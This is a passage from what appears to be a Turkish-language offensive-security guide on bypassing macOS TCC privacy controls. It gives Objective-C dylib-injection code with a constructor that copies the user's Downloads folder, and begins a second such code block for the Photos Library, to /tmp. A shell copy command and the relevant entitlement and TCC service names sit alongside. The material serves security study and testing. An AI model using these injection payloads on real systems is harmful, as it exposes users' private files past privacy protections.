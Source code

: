 {{#tabs}}
{{#tab name="ObjetiveC"}}
`$HOME/Downloads` klasörünü `/tmp/downloads`'a kopyala.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Downloads"];
NSString *tmpPhotosPath = @"/tmp/downloads";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{{#endtab}}

{{#tab name="Shell"}}
`$HOME/Dowloads`'ı `/tmp/downloads`'a kopyalayın.
```bash
cp -r "$HOME/Downloads" "/tmp/downloads"
```
{{#endtab}}
{{#endtabs}}

### Fotoğraflar Kütüphanesi

- **Yetki**: `com.apple.security.personal-information.photos-library`
- **TCC**: `kTCCServicePhotos`

{{#tabs}}
{{#tab name="ObjetiveC"}}
`$HOME/Pictures/Photos Library.photoslibrary` dosyasını `/tmp/photos` konumuna kopyalayın.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

```